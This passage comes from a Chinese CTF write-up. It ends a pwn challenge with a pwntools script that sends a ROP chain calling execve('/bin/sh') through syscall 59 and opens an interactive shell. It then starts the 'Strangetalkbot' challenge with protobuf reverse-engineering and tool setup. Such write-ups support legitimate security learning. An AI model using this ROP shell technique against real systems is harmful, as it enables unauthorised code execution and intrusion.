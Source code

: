 ```c
    sla(". ",str(ch))
    sla("\n",str(num))
def game(cont):
    menu(5)
    sla("",cont)

#dbg()

chuan(2,'-100000')

menu(4)

poprdi=0x000000000040264f
poprsi=0x000000000040a67e
poprdx=0x00000000004a404b
poprax=0x0000000000458827
syscalret=0x00000000004230a6
name=0x4E60F0

payload=b"/bin/sh\x00"+b'\x00'*0x20+p64(poprdi)+p64(name)+p64(poprsi)+p64(0)+p64(poprdx)+p64(0)*2+p64(poprax)+p64(59)
payload+=p64(syscalret)

game(payload)

p.interactive( )
```
## Strangetalkbot（protocal）

### 逆向分析
> 前言，本题是protocal
> [Protobuf](https://developers.google.com/protocol-buffers/)是由Google开发的一种序列化格式，用于越来越多的Android，Web，桌面和更多应用程序。它由一种用于声明数据结构的语言组成，然后根据目标实现将其编译为代码或另一种结构。

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685428257017-08ba6194-9357-414a-9839-c245faec8d96.png#averageHue=%23313030&clientId=uc9ea2a7e-31a5-4&from=paste&height=594&id=uee8b634e&originHeight=980&originWidth=1727&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=212377&status=done&style=none&taskId=u920f3082-3a67-4588-bfd9-1fe8f72ed05&title=&width=1046.6666061709661)<br />快速搜索magic可以定位到源码的仓库，当然也可以直接点击，就会发现了<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685459048004-73e17803-2ce5-4106-8dda-52bb31eb004d.png#averageHue=%23050302&clientId=u0082e65c-a6da-4&from=paste&height=336&id=u16f4f143&originHeight=555&originWidth=1467&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=75468&status=done&style=none&taskId=u4db6bf6d-76b1-4910-8dfa-a385f87d5f8&title=&width=889.0908577028415)
### 提取结构体
>  保存为.proto文件

#### 查找对应的结构参数方法
> 直接看符合表，然后一个个查

![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461665371-fbb63052-04ea-4af2-ba01-eca2d4d7e388.png#averageHue=%23353331&clientId=u38768434-f11b-4&from=paste&height=296&id=ud14eb8e5&originHeight=488&originWidth=926&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=95563&status=done&style=none&taskId=u3459790c-4b1e-4ef5-bc5b-600a59b48ca&title=&width=561.2120887749361)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461686511-aee0bf0b-380f-4612-b90b-8d5bc7a8ef2a.png#averageHue=%23020201&clientId=u38768434-f11b-4&from=paste&height=250&id=ue8fe8815&originHeight=412&originWidth=1295&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=56894&status=done&style=none&taskId=u554e94ab-91a0-4bf5-9af2-eb0a9f07f1f&title=&width=784.8484394854668)<br />![image.png](https://cdn.nlark.com/yuque/0/2023/png/29466846/1685461704999-8b8be39d-45c2-4f29-945d-48d1470c6520.png#averageHue=%23080703&clientId=u38768434-f11b-4&from=paste&height=114&id=u7ed0d7ed&originHeight=188&originWidth=1206&originalType=binary&ratio=1.6500000953674316&rotation=0&showTitle=false&size=31649&status=done&style=none&taskId=u3c557c52-1aee-41cb-aaa8-fd4748c7746&title=&width=730.9090486636857)
> 快捷键：ctrl + X 快速交叉引用

#### 自动化提取分析
> [https://github.com/marin-m/pbtk](https://github.com/marin-m/pbtk)
> 貌似行不通，openjdk-9我换成openjdk-11

```
sudo apt install python3-pip git openjdk-11-jre libqt5x11extras5 python3-pyqt5.qtwebengine python3-pyqt5

$ sudo pip3 install protobuf pyqt5 pyqtwebengine requests websocket-client

$ git clone https://github.com/marin-m/pbtk
$ cd pbtk
$ ./gui.py
```
#### 使用protocal编译
```python
sudo apt-get install protobuf-compiler
```